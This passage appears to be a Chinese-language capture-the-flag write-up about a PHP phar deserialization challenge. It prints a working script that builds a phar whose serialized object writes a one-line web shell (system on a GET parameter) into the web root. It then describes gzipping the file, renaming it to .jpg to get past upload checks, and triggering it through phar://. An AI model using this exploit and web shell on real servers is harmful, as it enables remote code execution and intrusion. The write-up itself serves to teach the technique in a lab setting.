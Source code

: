 打开源代码发现有提示class.php

![image-20231127174240348](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127174240348.png)

依旧是简简单单一句话，unlink是删除文件

`exec`命令似乎是不回显的，因此cmd要写一个马

```php
<?php
class Flag{
    public $cmd="echo \"<?=system(\\\$_GET[1]);?>\" > /var/www/html/1.php";
}
$a = new Flag();
$phar = new Phar('test1.phar');
$phar->startBuffering();
$phar->setStub('<? __HALT_COMPILER();?>');
$phar->setMetadata($a);
$phar->addFromString('test1.txt','test1');
$phar->stopBuffering();
?>
```

执行之后用gzip压缩用于绕过，然后为了上传方便，改成jpg后缀

![image-20231127181427868](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127181427868.png)

上传之后进入class.php，用phar读取上传后的文件，然后进入1.php

![image-20231127183026153](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127183026153.png)

![image-20231127183009015](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127183009015.png)

![image-20231127182950425](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127182950425.png)